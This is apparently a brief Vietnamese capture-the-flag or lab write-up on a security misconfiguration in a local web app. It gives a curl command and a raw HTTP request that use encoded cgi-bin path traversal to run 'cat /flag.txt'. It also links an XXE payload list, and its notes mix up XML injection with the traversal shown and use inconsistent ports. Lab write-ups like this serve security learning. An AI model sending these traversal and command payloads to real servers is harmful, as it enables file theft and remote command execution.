

# ⚙️ Security Misconfiguration

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:5005/
```

---

## Phân tích

- Trang web có 1 giao diện duy nhất


- Cờ nằm trong `flag.txt` (có thể thấy khi build docker)
- curl --data "echo;cat /flag.txt" 'http://localhost:6006/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt'



- Có thể khai thác **XML Injection**

---

## Khai thác

- Dùng **Burp Suite**

- GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt HTTP/1.1


- Tham khảo payload tại:
  [https://github.com/payloadbox/xxe-injection-payload-list/blob/master/Intruder/xxe-injection-payload-list.txt.txt](https://github.com/payloadbox/xxe-injection-payload-list/blob/master/Intruder/xxe-injection-payload-list.txt.txt)
